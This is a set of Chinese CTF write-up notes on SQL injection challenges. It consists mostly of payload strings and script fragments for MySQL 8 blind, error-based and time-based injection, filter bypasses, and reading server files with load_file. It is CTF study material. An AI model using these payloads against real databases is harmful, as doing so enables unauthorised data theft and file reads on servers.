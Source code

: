 ### RoarCTF2020ezsql

参考wp

```python
a'||(('def','ctf','f11114g','z',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,0,0,0,0)<=(TABLE/**/information_schema.columns/**/order/**/by/**/table_schema/**/limit/**/3,1))#

得到 f11114g表名
直接注flag

payload = 'admin\'and/**/substr((table/**/f11114g/**/limit/**/1,1),{},1)=\'{}\'#'

a'||(('{}')<=binary(TABLE/**/f11114g/**/limit/**/1,1))#
```

### 2022年蓝帽决赛simple-fish

还是mysql8的一个注入。感觉并没有多难。

```
sql = f"(0x646566,{makehex('fish')},{makehex('F5fl11A6g99')},%s,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,10,21,22)>(table information_schema.columns limit {mysqlline},1)" % makehex(ans + chr(mid))
# 先是注出全部的数据库,发现只有一个fish数据库,之后通过行数和字段数逐个微调注入得到表名字段名,最后确定falg在fish.F5fl11A6g99表的F511LAAGG字段,这个表只有两个字段,第一个是id,第二个是flag的字段,所以构造得到如下语句
sql = f"({mysqlline+1},%s)>(table fish.F5fl11A6g99 limit {mysqlline},1)" % makehex(ans + chr(mid))
```

### HFCTF2021-hatenum

黑名单如下。比较特别的是这里还有禁止长度超过9的数字和字符串出现

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364340817-d88fea55-0b05-4903-a1e7-8b6fa43d465d.png#averageHue=%23f4f8fd&id=ufBOY&originHeight=494&originWidth=1336&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

这里用到了上面总结的大数绕过。就是用unhex和hex还有科学计数法来做

首先绕过闭合

```
username=admin\
password=||1#
select * from users where username='admin\' and password='||1#'
```

后面注入的payload如下。每次三个三个来匹配。用的是报错注入。具体去参考写脚本技巧

```
payload="||exp(710-(code rlike binary "+hexer(guess+c)+"))#"
```

### i春秋2022晋升之路

这道题是读jwt里面的sql注入，很麻烦的题目

```python
payload="'^(substr((select/**/binary/**/load_file(0x2f666c6167)),{i},1)>binary/**/{mid})/**/and/**/sleep(2)^'".format(i=i,mid=hex(mid))

这里是sql注入读文件，用16进制绕过flag字符串
payload="(substr((select/**/binary/**/load_file(0x2f666c6167)),{i},1)>binary/**/{mid})/**/and/**/sleep(1)".format(i=i,mid=hex(mid))
```
